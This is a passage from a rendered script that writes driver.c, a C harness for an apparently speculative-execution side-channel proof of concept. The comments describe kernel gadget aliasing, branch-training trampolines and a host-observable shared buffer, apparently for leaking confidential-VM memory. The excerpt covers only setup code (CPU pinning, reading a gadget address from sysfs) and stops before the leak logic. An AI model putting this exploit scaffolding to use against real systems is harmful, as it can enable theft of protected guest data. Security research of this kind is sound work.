 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
info "Writing driver to wire sysfs -> trampolines -> ASM entry - driver.c"
cat > "${USER_DIR}/driver.c" <<'EOF'
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sched.h> // For CPU pinning
#include <unistd.h>
#include <errno.h>

#define TRAMPOLINE_COUNT 64 // Number of speculative callsite trampolines

// Extern symbols from the ASM file and trampoline builder
extern uint64_t __pbinc_kernel_gadget_addr;    // Kernel gadget VA (to alias against)
extern uint64_t __pbinc_probe_shared;          // SHARED (C-bit=0) buffer (host-observable)
extern uint64_t __alias_tbl[TRAMPOLINE_COUNT]; // Callsite trampoline table (filled at runtime)
extern uint64_t __slow_predicate_ptr;          // Cold memory to delay branch resolution

// Provided by trampoline.c -> builds the aliasing callsite trampolines
void *pbinc_create_trampolines(uint64_t gadget_addr);

// Provided by pbinc.asm -> the speculative training -> syscall -> spin harness
void pbinc_entry(void);

// Reads a hex value from a sysfs-style file (e.g. /sys/kernel/pbinc/gaddr)
static uint64_t read_hex(const char *path) {
    FILE *f = fopen(path, "r");
    if (!f) { 
        perror(path); exit(1); // Abort if file can't be opened
    }
    unsigned long long x = 0;
    if (fscanf(f, "%llx", &x) != 1) {
        fprintf(stderr, "parse %s failed\n", path); exit(1); // Failed to parse hex
    }
    fclose(f);
    return x; // Return parsed 64-bit value
}

int main(int argc, char **argv) {
    if (argc < 2) {
        // Expect SHARED buffer guest-virtual address (GVA) as argument
        fprintf(stderr, "usage: %s <guest-VA-of-SHARED-probe-hex>\n", argv[0]);
        return 2;
    }

    ////////////////////////////////////////////
    // 1. Pin to specific CPU core -> stability
    ////////////////////////////////////////////
    cpu_set_t set; CPU_ZERO(&set); CPU_SET(0, &set);
    sched_setaffinity(0, sizeof(set), &set); // Enforce CPU affinity for PoC repeatability

    ////////////////////////////////////////////
    // 2. Patch runtime addresses from sysfs / CLI
    ////////////////////////////////////////////
    // Load kernel gadget virtual address from module sysfs (e.g. /sys/kernel/pbinc/gaddr)
    __pbinc_kernel_gadget_addr = read_hex("/sys/kernel/pbinc/gaddr");


\end{lstlisting}
\end{document}
